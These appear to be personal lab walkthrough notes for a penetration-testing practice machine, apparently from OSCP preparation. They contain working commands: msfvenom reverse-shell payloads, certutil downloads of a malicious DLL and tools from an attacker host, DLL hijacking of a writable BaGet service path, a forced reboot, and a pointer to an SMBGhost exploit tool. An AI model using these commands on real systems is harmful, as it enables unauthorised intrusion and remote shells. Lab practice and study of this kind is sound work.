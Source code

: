 ### Rust scan
```
docker run -it --rm --name rustscan rustscan/rustscan:1.10.0 $IP
```

PORT      STATE SERVICE         REASON
21/tcp    open  ftp             syn-ack
80/tcp    open  http            syn-ack
135/tcp   open  msrpc           syn-ack
139/tcp   open  netbios-ssn     syn-ack
445/tcp   open  microsoft-ds    syn-ack
5040/tcp  open  unknown         syn-ack
8081/tcp  open  blackice-icecap syn-ack
49664/tcp open  unknown         syn-ack
49665/tcp open  unknown         syn-ack
49666/tcp open  unknown         syn-ack
49667/tcp open  unknown         syn-ack
49668/tcp open  unknown         syn-ack

http://192.168.243.61:8081/

default creds is nexus/nexus. Try the name of website first before bruteforce

### Find windows version
`sudo nmap -sV -sS -A $IP -p21,80,8081 -v`

### Nope so just try windows/shell_reverse_tcp
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=445 -f exe -o shell.exe`

```
����������͹ Searching executable files in non-default folders with write (equivalent) permissions (can be slow)
     File Permissions "C:\BaGet\BaGet.exe": Authenticated Users [WriteData/CreateFiles]


msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=135 -f exe -o BaGet.exe
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.49.243 LPORT=135 -f dll -o BaGet.dll

certutil -urlcache -f http://192.168.49.243/BaGet.dll C:\BaGet\BaGet.dll

shutdown -r -t 1 && exit
```

### winPEASany
```
certutil -urlcache -f http://192.168.49.243/winPEASany.exe C:\Users\nathan\winPEASany.exe

not working properly

certutil -urlcache -f http://192.168.49.243/PrintSpoofer64.exe C:\Users\nathan\PrintSpoofer64.exe
certutil -urlcache -f http://192.168.49.243/nc.exe C:\Users\nathan\nc.exe
```

### BaGet.exe is the rabbit hole. LOL...
let's enum something else

### windows-exploit-suggester very old
```
cd /opt

sudo python2 windows-exploit-suggester.py --update

[*] initiating winsploit version 3.3...
[+] writing to file 2022-09-06-mssb.xls
[*] done
```

```
sudo python2 windows-exploit-suggester.py --database 2022-09-06-mssb.xls --systeminfo systeminfo.txt
```
6 years now, no longer working

### wesng is the next generation
```
sudo ./wes.py /home/alvin/Documents/OSCP-PWK/PgPractice/Windows/Billyboss/systeminfo.txt
```

Listing the installed KBs, we learn that the most recently installed patch is KB4540673. This KB was released in March 2020, which means our target is potentially vulnerable to SMBGhost.
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.49.243 LPORT=8081 -f dll -f csharp
```

Or use this tool https://github.com/A1vinSmith/SMBGhost_AutomateExploitation

